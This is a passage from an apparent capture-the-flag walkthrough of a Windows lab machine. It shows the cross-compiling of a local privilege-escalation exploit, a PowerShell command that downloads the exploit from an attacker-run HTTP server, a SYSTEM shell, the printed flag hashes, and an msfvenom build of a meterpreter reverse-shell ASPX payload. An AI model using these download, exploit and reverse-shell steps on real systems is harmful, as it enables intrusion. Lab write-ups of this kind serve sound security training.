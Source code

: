 3. Compile the exploit specifically for target machine:

```bash
$ i686-w64-mingw32-gcc 40564.c -o exploit.exe -lws2_32
```

### Privesc (system)

Transfer `exploit.exe`:
- (Attacker's machine) run HTTP Server: `python3 -m http.server`
- (Victim's machine) download exploit: `powershell -command "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.14:8000/exploit.exe', 'c:\Windows\System32\spool\drivers\color\exploit.exe')"`
- Execute `exploit.exe`:

```console
c:\Windows\System32\spool\drivers\color>exploit.exe 
exploit.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

### Flags

```console
c:\>cd \users
c:\Users>dir /b/s *.txt
    ...
    c:\Users\Administrator\Desktop\root.txt.txt
    ...
    c:\Users\babis\Desktop\user.txt.txt
    ...
c:\Users>type c:\Users\babis\Desktop\user.txt.txt
9ecdd6a3aedf24b41562fea70f4cb3e8
c:\Users>type c:\Users\Administrator\Desktop\root.txt.txt
e621a0b5041708797c4fc4728bc72b4b
```

## Method #2: using Metasploit (meterpreter)

### 1. `msfvenom`

Preparing our malicious file which1 will give us a **meterpreter**: 

```console
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f aspx > meterpreter.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2883 bytes
```
